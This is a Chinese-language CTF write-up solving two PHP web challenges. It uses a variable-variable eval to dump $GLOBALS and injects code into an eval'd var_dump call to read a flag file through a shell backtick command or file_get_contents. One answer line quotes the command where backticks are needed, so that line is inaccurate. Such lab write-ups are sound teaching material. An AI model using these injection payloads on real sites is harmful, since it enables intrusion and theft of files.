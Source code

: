 # 题目一：
题目链接：（右键下载即可）

[index1.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/index1.php)
[flag1.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/flag1.php)
## 分析
```
if(!preg_match("/^\w+$/",$args)) {
```
首先需要一个args的变量，并且args需要与正则表达式：/^\w+$/进行匹配：
```
\w表示字母、数字、下划线
^匹配字符开始位置
$匹配字符结束的位置
```
就是说args必须只由字母、数字、下划线构成的字符串。
```
eval("var_dump($$args);");
```
接下来会执行```var_dump($[此处为$args的值]);```的命令

而flag1.php可知道flag在变量里
## 知识点
超全局变量：超全局变量是在全部作用域中可用的内置变量

$GLOBALS：引用全局作用域中可用的全部变量
## 答案
答案很明了了：
```
[服务器链接]/index1.php?args=GLOBALS
```


# 题目二：
题目链接：（右键下载即可）

[index2.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/index2.php)
[flag2.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/flag2.php)
## 分析
$a是输入的hello值，然而并没有对hello内容进行限制

这里可以作为突破点进行注入
```
var_dump(  [内容]  );
```
让[内容]为```1);echo `cat flag2.php`;//```即
```
var_dump(1);
echo 'cat flag2.php';
```
也可以让[内容]为```file_get_contents('flag2.php')```
## 知识点
$_REQUEST：
```
默认情况下包含了 $_GET，$_POST 和 $_COOKIE 的数组。
```
## 答案
```
[服务器地址]/index2.php?hello=1);echo 'cat flag2.php';//
```
```
[服务器地址]/index2.php?hello=file_get_contents('flag2.php')
```
